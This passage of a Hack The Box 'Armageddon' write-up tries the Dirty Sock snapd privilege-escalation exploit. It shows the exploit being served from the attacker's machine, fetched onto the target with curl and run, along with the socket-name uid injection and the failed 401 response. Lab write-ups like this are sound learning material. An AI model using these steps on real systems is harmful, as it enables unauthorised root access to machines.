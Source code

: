 I first read [an excellent article explaining the exploit](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html), and a [writeup of running dirty sock](http://www.hackersnotes.com/blog/pentest/linux-privilege-escalation-via-snapd-using-dirty_sock-exploit-and-demonstration-of-cve-2019-7304/) - it contains much the same info as the first article, but with a demo of running the script itself.

This is the [git repository](https://github.com/initstring/dirty_sock) for Dirty Sock.

I wasn't sure this would work out of the box, as I had a feeling we'd need to do some manual exploitation with the `install` command - but let's give it a go.

We'll download the script from git, move it to a `www` directory, and download it to the box.

```bash
┌──(mac㉿kali)-[/opt]
└─$ sudo git clone https://github.com/initstring/dirty_sock.git
Cloning into 'dirty_sock'...

┌──(mac㉿kali)-[/opt/dirty_sock]
└─$ cp dirty_sockv2.py ~/Documents/HTB/armageddon/
┌──(mac㉿kali)-[/opt/dirty_sock]
└─$ cd ~/Documents/HTB/armageddon/
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ mkdir www
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ mv dirty_sockv2.py www/ && cd www/
┌──(mac㉿kali)-[~/Documents/HTB/armageddon/www]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.233 - - [03/Apr/2021 16:04:22] "GET /dirty_sockv2.py HTTP/1.1" 200 -
```

On the box:

```bash
[brucetherealadmin@armageddon ~]$ curl 10.10.14.53:80/dirty_sockv2.py > /tmp/sock.py

[brucetherealadmin@armageddon tmp]$ python3 sock.py 

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/escgoauyif;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] System may not be vulnerable, here is the API reply:


HTTP/1.1 401 Unauthorized
Content-Type: application/json
Date: Sat, 03 Apr 2021 15:19:42 GMT
Content-Length: 119

{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}
```
